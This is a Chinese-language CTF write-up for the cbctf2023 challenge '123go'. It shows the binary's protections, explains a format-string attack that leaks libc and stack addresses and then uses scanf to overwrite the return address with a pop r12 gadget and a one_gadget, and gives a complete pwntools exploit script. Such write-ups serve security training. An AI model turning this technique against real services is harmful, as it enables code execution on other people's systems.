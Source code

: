 ```yaml
---
title: cbctf2023 - 123go 
date: 2024/4/22 00:30:00
tags:
    - fmt-string
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.14|

## 解题思路

一次printf，两次scanf，每次16字节，颇有一点难度  
我一看栈的地址，因为ASLR的存在乱跳，不方便硬编码；写2个字节吧，又没有机会leak libc；
因为栈上有跳板`ptr1->ptr2->char[]str`，因此可以`*ptr1=ptr2x->retAddr`（打moectf打的），
然后再`*ptr2x=oneGadget`控制返回流为ogg；但是我检查限制条件时，发现让`r12 == 0`不满足，
故先写`pop r12;ret`的地址到返回地址上，跟一个`p64(0)`，把让r12改成0，再做ogg；
此时发现，scanf岂不是比%n好用多了？所以第一个scanf改的是跳板，第二个改的是返回地址内容

值得注意的是，scanf("%s")是不按\0截断的，并且也可以用`%8$s`这种方式指定参数序号

## EXPLOIT

```python
from pwn import *

def payload(lo:int):
    global sh
    libc = ELF('./libc-2.31.so')
    if lo:
        sh = process('123go')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('training.0rays.club', 10039)

    # payload 1, leak stack & libc
    sh.sendafter(b'name:', b'%11$p%13$p')

    sh.recvuntil(b'llo:') # skip
    libcstartmain = int(sh.recv(14).decode(), 16)
    libcBase = libcstartmain - 243 - libc.symbols['__libc_start_main']
    print('libc leaked')

    stack = int(sh.recv(14).decode(), 16)
    retAddr = stack - 0x648 + 0x558
    print('stack leaked')

    if libcBase & 0xfff:
        print(f'Invalid libcBase ({hex(libcBase)})')
        sh.close()
        return False

    sh.sendafter(b'text', b'%13$d')
    input('type <CR> when ready') # avoid input piling
    sh.sendline(str(retAddr & 0xffffffff).encode()) # int is enough
    print('addr sent')

    popR12 = libcBase + 0xc9e91
    oneGadget = libcBase + 0xe3afe
    sh.sendafter(b'text', b'%41$s')
    input('type <CR> when ready')
    sh.sendline(p64(popR12) + p64(0) + p64(oneGadget))
    print('payload sent')

    sh.interactive()
```
